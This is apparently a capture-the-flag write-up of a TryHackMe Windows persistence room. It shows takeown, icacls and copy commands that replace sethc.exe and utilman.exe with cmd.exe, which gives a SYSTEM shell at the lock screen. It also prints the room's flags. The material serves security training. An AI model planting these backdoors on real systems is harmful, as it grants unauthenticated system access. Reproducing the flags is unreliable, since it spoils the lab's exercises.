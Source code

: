 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/08/2023

# Stickey Keys
1. Started this room's machine
2. `takeown /f c:\Windows\System32\sethc.exe` from the compromised Windows machine to take ownership, which we're doing as Administrator, of the **sethc.exe** (Secure Attention Sequence Even Handler Controller) program, which is associated with the Stickey Keys feature in Windows that you can activate by pressing the **SHIFT** key on a keyboard five times if it's active
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\sethc.exe /grant Administrator:F` from the compromised Windows machine to grant the Administrator full control to the **sethc.exe** program, which allowed us to modify the executable binary that will execute after activating Sticky Keys by pressing the **SHIFT** key on our keyboard five times
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe` from the compromised Windows machine to replace the **sethc.exe** file with the **cmd.exe** file so that when the user activates Sticky Keys, it'll execute the **cmd.exe** program instead, which will launch the compromised Windows machine's command prompt that we'll use to execute the **flag14.exe** program 
```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. After successfully executing the preceding commands, we'll lock our screen and then active Sticky Keys by pressing **SHIFT** five times on our keyboard, which ended up opening a command prompt with SYSTEM privileges

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.3.png) 

6. `C:\flags\flag14.exe` from our open command promp on the compromised Windows machine's lockscreen to execute the **flag14.exe** program, which ended up displaying the flag for this task onto our terminal 
```PowerShell
C:\Windows\system32>C:\flags\flag14.exe
THM{BREAKING_THROUGH_LOGIN}
```


**TASK COMPLETED**

# Utilman
1. Started this room's machine
2. `takeown /f c:\Windows\System32\utilman.exe` from the compromised Windows machine to take ownership of, which we're doing as Administrator, the **utilman.exe** (Utility Manager) program, which is responsible for managing various accessibility features and utilities in Windows, such as Windows' **Ease of Access** options during the lockscreen
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\utilman.exe /grant Administrator:F` from the compromised Windows machine to grant the Administrator full control to the **utilman.exe** program, which allowed us to modify the executable binary that will execute after acessing the **Ease of Access** options during the compromised Windows machine's lockscreen
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe` from the compromised Windows machine to replace the **utilman.exe** file with the **cmd.exe** file so that a command prompt will open up when pressing on the **Ease of Access** option at the compromised machine's lockscreen instead of the **utilman** being executed 
```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. After successfully executing the previous commands, we locked our screen and then click on the "**Ease of Access**" button, which ended up opening up a command prompt with SYSTEM privileges that verified by executing the`whoami` command, which was the case

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Utilman%20pt2.png)

7. `C:\flags\flag15.exe` from our open command promp on the compromised Windows machine's lockscreen to execute the **flag15.exe** program, which ended up displaying the flag for this task onto our terminal 
```PowerShell
C:\Windows\system32>C:\flags\flag15.exe
THM{THE_LOGIN_SCREEN_IS_MERELY_JUST_A_SUGGESTION}
```


**TASK COMPLETED**
